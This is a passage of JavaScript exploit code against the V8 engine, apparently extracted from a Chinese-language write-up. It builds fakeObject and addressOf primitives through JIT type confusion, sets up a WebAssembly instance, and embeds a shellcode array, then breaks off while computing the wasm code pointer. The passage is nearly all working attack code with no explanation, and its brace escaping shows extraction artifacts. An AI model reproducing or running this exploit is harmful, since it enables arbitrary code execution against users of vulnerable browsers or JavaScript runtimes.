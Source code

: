 ```

var double_element_map = opt();

//print(u64f(double_element_map).toString(16));
var obj_element_map = i2f64(u64f(double_element_map) + 0xa0n);
print((u64f(double_element_map)).toString(16));

function fakeObject_opt(addr) `{`
   arr = [addr,2.2,3.3,4.4];
   var e = `{`a:arr.length`}`;
   arr[e.a] = obj_element_map;
   return arr;
`}`

//JIT优化
for (var i=0;i&lt;0x20000;i++) `{`
   fakeObject_opt(double_element_map);
`}`

function fakeObject(addr) `{`
   return fakeObject_opt(i2f64(addr + 0x1n))[0];
`}`

//获得MAP对象
var double_element_map_obj = fakeObject_opt(double_element_map)[0];

//print(double_element_map_obj);

function addressOf_opt(obj) `{`
   var arr = [obj,obj,obj,obj];
   var e = `{`a:arr.length`}`;
   arr[e.a] = double_element_map_obj;
   return arr;
`}`

//JIT优化
for (var i=0;i&lt;0x20000;i++) `{`
   addressOf_opt(buf);
`}`

function addressOf(obj) `{`
   var v = addressOf_opt(obj)[0];
   return u64f(v) - 0x1n;
`}`

const wasmCode = new Uint8Array([0x00,0x61,0x73,0x6D,0x01,0x00,0x00,0x00,0x01,0x85,0x80,0x80,0x80,0x00,0x01,0x60,0x00,0x01,0x7F,0x03,0x82,0x80,0x80,0x80,0x00,0x01,0x00,0x04,0x84,0x80,0x80,0x80,0x00,0x01,0x70,0x00,0x00,0x05,0x83,0x80,0x80,0x80,0x00,0x01,0x00,0x01,0x06,0x81,0x80,0x80,0x80,0x00,0x00,0x07,0x91,0x80,0x80,0x80,0x00,0x02,0x06,0x6D,0x65,0x6D,0x6F,0x72,0x79,0x02,0x00,0x04,0x6D,0x61,0x69,0x6E,0x00,0x00,0x0A,0x8A,0x80,0x80,0x80,0x00,0x01,0x84,0x80,0x80,0x80,0x00,0x00,0x41,0x2A,0x0B]);
const shellcode = new Uint32Array([186,114176,46071808,3087007744,41,2303198479,3091735556,487129090,16777343,608471368,1153910792,4132,2370306048,1208493172,3122936971,16,10936,1208291072,1210334347,50887,565706752,251658240,1015760901,3334948900,1,8632,1208291072,1210334347,181959,565706752,251658240,800606213,795765090,1207986291,1210320009,1210334349,50887,3343384576,194,3913728,84869120]);
var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule);
var func = wasmInstance.exports.main;

var faker = [0.0,1.1,2.2,3.3,4.4,5.5,6.6,7.7,8.8,9.9];
var arb_buf = new ArrayBuffer(0x10);
var faker_addr = addressOf(faker);
print('faker_addr='+faker_addr.toString(16));
wasm_shellcode_ptr_addr = addressOf(wasmInstance) + 0x88n;
```